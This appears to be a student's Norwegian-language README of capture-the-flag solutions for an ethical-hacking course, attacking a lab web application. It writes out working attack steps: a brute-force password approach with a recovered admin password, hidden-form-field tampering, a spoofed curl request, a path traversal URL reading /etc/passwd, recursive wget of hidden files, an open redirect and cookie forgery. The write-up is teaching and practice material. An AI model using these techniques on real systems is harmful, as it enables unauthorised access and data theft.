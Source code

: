 # TTM4536-Etisk-hacking

Repo for all code som blir brukt i faget, og spesielt i forhold til flag og Darkly


Flags:
1. Bruteforce
2. Passord-recovery
3. Albatros-flag? nsa?
4. Survey (trenger flag03)
5. Redirect (trenger flag04)
6. Paths
7. Hidden
8. Whatever
9. Cookies/oreo
10. Members
11. Image
12. Image2
13. Silly
14. nsa2



# Bruteforce/Flag01

Lagde et script som kjørte 2 for løkker. Begge løkkene gikkgjennom alle passordene i filen (xato.....) og i den inerste løkken skrev den ut passordene i et passord. Så alle passordene i filen ble satt sammen med alle passordene inkludert seg selv. Det endte totalt med 998001 passord grunnet at det var 999 passord i filen siden et av passordene var blankt som scriptet ikke tok med.

Etter det kjørte jeg det default scriptet med noen små justeringer og fikk ut passordet (chicken333333) for admin.


# Flag02 - Passord recovery
Editerte html coden:
Ved å legge inn eget e-post i value i stede for den som lå der orginalt
```
<form action="#" method="POST"> 
    <input type="hidden" name="mail" value="eirikgba@stud.ntnu.no" maxlength="15"> 
    <input type="submit" name="Submit" value="Submit"> 
</form>
```


# Flag03 - Albatros/NSA flag
``` 
curl -A "61c08546b939" -e "https://www.nsa.gov/" http://129.241.200.165:19680/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c
```

# Flag04 - Survey
```
http://129.241.200.165:19680/?page=survey
<form action="#" method="post">
					<input type="hidden" name="sujet" value="2">
					<select name="valeur" onchange="javascript:this.form.submit();">
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="999999">10</option>
					</select>
				</form>

```
Change the value of one of the Grades

2^Grade mod p = FLAG03 mod 2^64,
Where
p = Next_Prime(2^54)

# Flag05
Redirect the webpage til en annnen side
```
http://129.241.200.165:19680/index.php?page=redirect&site=5650cb0
```

# Flag06
Endre page, ved å gå til root og så inn i directory etc og vidre inn i passwd.
Hentet opp deller av flagget når en går bakover i fil systemet og det siste ligger i etc/passwd
```
http://129.241.200.165:19680/index.php?page=../../../../../../../etc/passwd
```


# Flag07
Flag07: dbfa4f7c46dc570fcd4b71272cdd2f2c
First tok jeg ut alle README filene
``` 
wget -m -r -nd -A "*README*" http://129.241.200.165:19680//.hidden/ 
```
Så merge alle filene sammen til en fil og åpne den filen i notepad
```
cat * > merged-file
explorer.exe .			#åpner directory i file explorer windows
```

# Flag08

# Flag09 - cookie
satoshi 65558: 22c9b7866d7424dc4b90a03664f5136c966fb34c8edd751cfba6998fe2b5170f
```
inspect element

document.cookie

https://www.blockchain.com/btc/block/65558

endre cookie til 000000000a7dce5ac40e7a88fd61399bbe76da161c1d65cbc2ebf2bd364545ed
```

# Flag10

# Flag11

# Flag12

# Flag13

# Flag14

